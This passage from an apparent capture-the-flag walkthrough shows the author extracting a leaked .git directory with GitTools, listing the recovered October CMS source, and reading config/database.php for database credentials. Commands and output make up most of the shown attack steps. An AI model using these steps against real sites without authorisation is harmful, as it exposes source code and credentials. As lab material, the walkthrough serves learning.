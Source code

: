 Then we extract the information from downloaded .git directory.

```bash
root@kali:~$ GitTools/Extractor/extractor.sh ./ extracted_git
###########
# Extractor is part of https://github.com/internetwache/GitTools
#
# Developed and maintained by @gehaxelt from @internetwache
#
# Use at your own risk. Usage might be illegal in certain circumstances.
# Only for educational purposes!
###########
[*] Destination folder does not exist
[*] Creating...
[+] Found commit: 7de9115700c5656c670b34987c6fbffd39d90cf2
[+] Found file: /root/devguru/extracted_git/0-7de9115700c5656c670b34987c6fbffd39d90cf2/.gitignore
[+] Found file: /root/devguru/extracted_git/0-7de9115700c5656c670b34987c6fbffd39d90cf2/.htaccess
[+] Found file: /root/devguru/extracted_git/0-7de9115700c5656c670b34987c6fbffd39d90cf2/README.md
[+] Found file: /root/devguru/extracted_git/0-7de9115700c5656c670b34987c6fbffd39d90cf2/adminer.php
...
```

With the tree command we list the content of the extracted_git directory.

```bash
root@kali:~$ cd extracted_git 
root@kali:~/extracted_git$ tree
.
└── 0-7de9115700c5656c670b34987c6fbffd39d90cf2
    ├── adminer.php
    ├── artisan
    ├── bootstrap
    │   ├── app.php
    │   └── autoload.php
    ├── commit-meta.txt
    ├── config
    │   ├── app.php
    │   ├── auth.php
    │   ├── broadcasting.php
    │   ├── cache.php
    │   ├── cms.php
    │   ├── cookie.php
    │   ├── database.php
    │   ├── environment.php
...
```

We can see an interesting file called database.php, It contains the credentials to the **octoberdb** database

```bash
root@kali:~/extracted_git$ cat 0-7de9115700c5656c670b34987c6fbffd39d90cf2/config/database.php
...
        'mysql' => [                                                                                                                                                
            'driver'     => 'mysql',                                                                                                                                
            'engine'     => 'InnoDB',                                                                                                                               
            'host'       => 'localhost',                                                                                                                            
            'port'       => 3306,                                                                                                                                   
            'database'   => 'octoberdb',                                                                                                                            
            'username'   => 'october',                                                                                                                              
```